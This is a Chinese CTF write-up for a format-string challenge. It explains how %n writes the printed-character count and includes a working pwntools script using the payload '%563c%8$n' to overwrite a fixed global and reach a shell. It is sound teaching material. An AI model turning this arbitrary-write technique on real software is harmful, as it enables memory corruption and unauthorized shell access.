

# week30xPwn4_easyfmt

## 题目简述

程序把最多 `0x20` 字节用户输入直接交给 `printf(buf)`，形成格式化字符串漏洞。全局变量 `n` 初始为 0；当它等于 `0x233` 时，程序执行 `system("/bin/sh")`。

二进制未开启 PIE，因此 `n` 的地址固定为 `0x404050`。

## 解题过程

`%n` 不输出内容，而是把此前已经输出的字符数作为 4 字节整数写入参数所指地址；`%hn` 和 `%hhn` 则分别写 2 字节和 1 字节。本题只需把初始为零的 `size_t n` 的低 4 字节写成

$$
0x233=563.
$$

格式串 `%563c` 会产生宽度为 563 的输出，使累计计数变为 563。虽然源码没有向 `printf` 传入对应的可变参数，但格式化函数仍会按调用约定从寄存器保存区和栈上取值，这是漏洞可利用的未定义行为。

调试可见，输入开头位于 `printf` 能作为第 6 个参数读取的栈位置。把格式串补齐到 `0x10` 字节后，紧随其后的目标地址对应：

$$
6+\frac{0x10}{8}=8,
$$

所以使用 `%8$n`。



```python
from pwn import ELF, args, context, flat, process, remote

context.binary = elf = ELF("./main", checksec=False)

if args.REMOTE:
    io = remote(args.HOST, int(args.PORT))
else:
    io = process(elf.path)

target = 0x404050
payload = b"%563c%8$n".ljust(0x10, b"\x00")
payload += flat(target)

assert len(payload) == 0x18
assert len(payload) <= 0x20
io.sendafter(b"easyfmt for U", payload)
io.interactive()
```

远程地址通过参数传入，例如：

```text
python exp.py REMOTE HOST=example.com PORT=10012
```

## 方法总结

这是一处直接的格式化字符串任意写：先用输出宽度把字符计数精确累加到 `0x233`，再把固定目标地址放到已确认的第 8 个参数位置，通过 `%8$n` 写入。参数偏移应由调试或探测确定；源码数组大小只能说明输入上限，不能替代实际栈布局分析。
